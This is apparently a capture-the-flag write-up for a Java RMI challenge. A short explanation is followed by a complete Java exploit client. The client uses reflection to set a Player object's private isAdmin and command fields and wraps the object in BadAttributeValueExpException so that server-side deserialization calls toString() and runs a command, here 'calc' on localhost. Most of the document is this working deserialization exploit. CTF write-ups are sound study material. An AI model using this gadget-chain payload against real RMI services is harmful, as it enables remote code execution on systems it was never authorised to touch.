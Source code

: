 ## Solution
![rmi_services](https://camo.githubusercontent.com/c43f75e8d4e527ddc3ddd8658e96f983ea95c058d6f404eb7c115b7745e1eca1/68747470733a2f2f692e696d6775722e636f6d2f636b564b6f727a2e706e67)

Create Client to interactive with rmi server, rmi use 100% java serialize/unserialize to transform data so attacker can send malicious serialize object to server and let it unserialize

In Player class we can see the check isAdmin() and method toString() let us run command, so we use java reflect to modify their value, and call gadget
```
gadget BadAttributeValueExpException.readObject() -> Player.toString()
```
to call toString of Player

## ASCISPlayer rce call calculator
```java
package rmi;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {
        String serverIP = "127.0.0.1";
        int serverPort = 1099;
        String command = "calc";

        // Dùng reflection để set các private variable trong class
        Player player = new Player();
        Field isAdmin = player.getClass().getDeclaredField("isAdmin");
        isAdmin.setAccessible(true);
        isAdmin.set(player, true);

        Field logCommand = player.getClass().getDeclaredField("logCommand");
        logCommand.setAccessible(true);
        logCommand.set(player, command);

        // Class này khi được deserialize sẽ tự động gọi object val với method toString()
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, player);

        // Với Remote Method Invocation. Gọi ASCISInterfImpl.login() với arg là object player
        Object name = val;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        System.out.println(ascisInterf.login(name));
    }
}
```
